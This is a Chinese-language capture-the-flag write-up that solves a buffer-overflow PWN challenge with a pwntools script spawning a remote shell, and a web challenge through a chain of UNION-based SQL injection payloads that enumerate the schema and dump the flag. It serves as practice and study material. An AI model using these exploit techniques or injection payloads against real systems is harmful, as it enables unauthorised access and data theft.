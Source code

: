 # BW OJ 7.19思考

# PWN

### bof

使用IDA打开pwn，看到ebp-1Ch

![image-20230719102937145](https://github.com/wammr/smrlearning/blob/master/picture/image-20230719102937145.png)

又看到有system函数，找到system的地址是0x08048568（空格键可以在图形界面和文本界面之间切换）

![image-20230719104006837](https://github.com/wammr/smrlearning/blob/master/picture/image-20230719104006837.png)

又找到system中/bin/sh的地址是0x0804A02C

![image-20230719103025889](https://github.com/wammr/smrlearning/blob/master/picture/image-20230719103025889.png)

解题脚本为：

```python
from pwn import *
conn=remote('vps1.blue-whale.me',9990)
system_addr = 0x08048568
command = 0x0804A02C
 conn.recv()
conn.sendline(b'a'*(0x1c+4) + p32(system_addr) + p32(command))
conn.interactive()
```

运行后得到Flag:

![image-20230719104109186](https://github.com/wammr/smrlearning/blob/master/picture/image-20230719104109186.png)

## Web

### Basic SQL

基础知识补充：

*在`information_schema`数据库中，有一个名为`schemata`的表，该表记录了MySQL服务器上所有数据库的信息，包括数据库名称（`SCHEMA_NAME`）等。*



获取查询列数：

```
a' union select '1','2','3
```

获取回显位置：

![image-20230719104853356](https://github.com/wammr/smrlearning/blob/master/picture/image-20230719104853356.png)

接下来获取所有的数据库：

```
a' union select '1',(select group_concat(SCHEMA_NAME) from information_schema.schemata),'3
```

发现有两个数据库，Information_schema和news

![image-20230719105021243](https://github.com/wammr/smrlearning/blob/master/picture/image-20230719105021243.png)

看看当前数据库是什么名字：

```
a' union select '1',database(),'3
```

![image-20230719105133917](https://github.com/wammr/smrlearning/blob/master/picture/image-20230719105133917.png)

可以看到当前数据库叫news

接下来看到当前数据库的表名：

```
a' union select '1',(select group_concat(table_name) from information_schema.tables where table_schema=database()),'3
```

![image-20230719105728471](https://github.com/wammr/smrlearning/blob/master/picture/image-20230719105728471.png)

接下来开始获取字段名：

```
a' union select '1',(select group_concat(column_name) from information_schema.columns where table_name='f1agfl4gher3'),'3
```

![image-20230719105847480](https://github.com/wammr/smrlearning/blob/master/picture/image-20230719105847480.png)

最后获取Flag：

```
a' union select '1',(select h3r31sfl4g from f1agfl4gher3),'3
```

![image-20230719105918364](https://github.com/wammr/smrlearning/blob/master/picture/image-20230719105918364.png)